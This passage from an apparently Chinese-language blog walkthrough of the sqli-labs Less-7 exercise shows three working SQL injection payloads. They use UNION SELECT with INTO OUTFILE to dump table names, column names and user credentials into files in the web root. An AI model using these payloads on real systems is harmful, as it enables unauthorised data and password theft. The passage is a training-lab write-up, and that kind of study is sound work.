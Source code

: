 

<img src="https://i-blog.csdnimg.cn/blog_migrate/77df6b8d45305e4aea01f195be6333f6.png" alt="" style="max-height:230px; box-sizing:content-box;" />


发生报错 但是我们去看看我们的路径下是否存在 1.txt



<img src="https://i-blog.csdnimg.cn/blog_migrate/1bca3c8fb8ea71f9215b365d44c6a6fe.png" alt="" style="max-height:175px; box-sizing:content-box;" />


发现存在



<img src="https://i-blog.csdnimg.cn/blog_migrate/df04f6f5b573f43b57d792ddb8b1a196.png" alt="" style="max-height:85px; box-sizing:content-box;" />


内容就是我们需要的

这样我们就可以直接一步一步报出来

```cobol
?id=-1%27))%20union%20select%201,2,(select%20group_concat(table_name)from%20information_schema.tables%20where%20table_schema=database())%20into%20outfile%20%22D:\\phpstudy_pro\\WWW\\sqli-labs\\Less-7\\2.txt%22--%20+
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/e223bde0b2fa2d763c771af1f5f4e23c.png" alt="" style="max-height:100px; box-sizing:content-box;" />




```cobol
?id=-1%27))%20union%20select%201,2,(select%20group_concat(column_name)from%20information_schema.columns%20where%20table_name=%27users%27%20and%20table_schema=database())%20into%20outfile%20%22D:\\phpstudy_pro\\WWW\\sqli-labs\\Less-7\\3.txt%22--%20+
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/8358a668ad359b13f3f0072c3cacb07b.png" alt="" style="max-height:78px; box-sizing:content-box;" />




```cobol
?id=-1%27))%20union%20select%201,2,(select%20group_concat(id,%27-----------%27,username,%27-----------%27,password)from%20security.users)%20into%20outfile%20%22D:\\phpstudy_pro\\WWW\\sqli-labs\\Less-7\\4.txt%22--%20+
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/64ba6f0d94b24bac004f8c578c0f771f.png" alt="" style="max-height:137px; box-sizing:content-box;" />


到这里 就结束了

## Less-8
